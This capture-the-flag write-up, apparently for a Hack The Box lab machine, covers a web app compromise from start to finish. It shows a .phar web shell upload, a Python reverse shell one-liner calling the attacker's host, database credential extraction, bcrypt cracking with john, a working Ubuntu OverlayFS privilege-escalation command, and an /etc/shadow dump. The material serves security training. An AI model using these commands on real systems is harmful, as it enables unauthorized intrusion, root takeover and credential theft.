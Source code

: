 We found a webbapp where we can create an account and upload a file image. After upload a test PNG image we found this file at http://10.10.11.241:8080/uploads/example-image.png so we can try to upload a php shell and get RCE. We can remove the html filter for image files and upload whatever we want and we find it vulnerable to .phar extension

![[Pasted image 20231120122401.png]]

We use the **[p0wny-shell](https://github.com/flozz/p0wny-shell)** and we get RCE. Not we got a fully interactive shell with a python reverse shell

```bash
www-data@webserver:…/html/uploads# python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.11",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'

--------------

┌──(kali㉿kali)-[~]
└─$ nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.11.241] 6540
www-data@webserver:/var/www/html/uploads$ whoami
www-data
```

Once in, we found a config.php file in /var/www/html

```bash
www-data@webserver:/var/www/html/uploads$ cat /var/www/html/config.php
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', 'my$qls3rv1c3!');
define('DB_NAME', 'hospital');
 
/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);
 
// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
?>
```

So we connect to mysql and search for useful info

```bash
www-data@webserver:/$ mysql -h localhost -u root -p'my$qls3rv1c3!' hospital                 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 1521
Server version: 10.11.2-MariaDB-1 Ubuntu 23.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [hospital]>show databases;
+--------------------+
| Database           |
+--------------------+
| hospital           |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.002 sec)

MariaDB [hospital]> use hospital;
Database changed
MariaDB [hospital]> show tables;
+--------------------+
| Tables_in_hospital |
+--------------------+
| users              |
+--------------------+
1 row in set (0.000 sec)

MariaDB [hospital]> select * from users;
+----+----------+--------------------------------------------------------------+---------------------+
| id | username | password                                                     | created_at          |
+----+----------+--------------------------------------------------------------+---------------------+
|  1 | admin    | $2y$10$caGIEbf9DBF7ddlByqCkrexkt0cPseJJ5FiVO1cnhG.3NLrxcjMh2 | 2023-09-21 14:46:04 |
|  2 | patient  | $2y$10$a.lNstD7JdiNYxEepKf1/OZ5EM5wngYrf.m5RxXCgSud7MVU6/tgO | 2023-09-21 15:35:11 |
|  3 | asd      | $2y$10$V6mKdRYvTUok4ayYLv3Tv.89eNMsTUaaIr9jco/d6cMgQTgCZxQYG | 2023-11-20 03:04:56 |
|  4 | shani    | $2y$10$pCgIc.qqdbsgWoZeHQB.fOzfIhY/ZGgZE8AxaJuXLs10kpBoTJrDO | 2023-11-20 03:05:16 |
|  5 | foo      | $2y$10$gh2ynSQOh3CjQ4Cr2labGup1WDS5sFzK7cq6ZHppUNSSxBlHEdTVe | 2023-11-20 15:43:15 |
|  6 | test123  | $2y$10$f9EtPX8aqU7RldLVWuWgU.W/bM89c38.z9uwflnhZB.A7cpoDKKLO | 2023-11-20 16:16:44 |
|  7 | myuser  | $2y$10$BcnUH00Ohg/PDeN0xxiR0.RcG0.4RmBMvUIE3hA71dOd0j0.zyDsq | 2023-11-20 18:23:09 |
+----+----------+--------------------------------------------------------------+---------------------+
7 rows in set (0.000 sec)
```

With john we get admin:123456 credentials

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Hospital-10.10.11.241]
└─$ john hashes -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
123456 (admin)           (?)     
1g 0:00:00:11 0.01% (ETA: 2023-11-22 23:07) 0.09000g/s 84.24p/s 85.86c/s 85.86C/s blonde..brian
1g 0:00:04:18 0.11% (ETA: 2023-11-23 06:04) 0.003867g/s 74.21p/s 74.28c/s 74.28C/s prieto..mike06
Use the "--show" option to display all of the cracked passwords reliably
Session aborted
```

We try this credentials at the webapp but nothing interesting appears. After some searching we found the OS vulnerable (**[CVE-2023-2640 & CVE-2023-32629](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/)**). We can escalate executing the following commands

```bash
www-data@webserver:/$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;  
  
> setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("bash -i")'

root@webserver:/tmp# whoami 
root
```

We are root but we still not founding the flags so lets enumerate again

```bash
[>] cat /etc/shadow 
root:$y$j9T$s/Aqv48x449udndpLC6eC.$WUkrXgkW46N4xdpnhMoax7US.JgyJSeobZ1dzDs..dD:19[...SNIP...]
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:1961
lxd:!:19612::::::
mysql:!:19620::::::
```

We found root and drwilliams hashes and with john we get drwilliams:qwe123!@#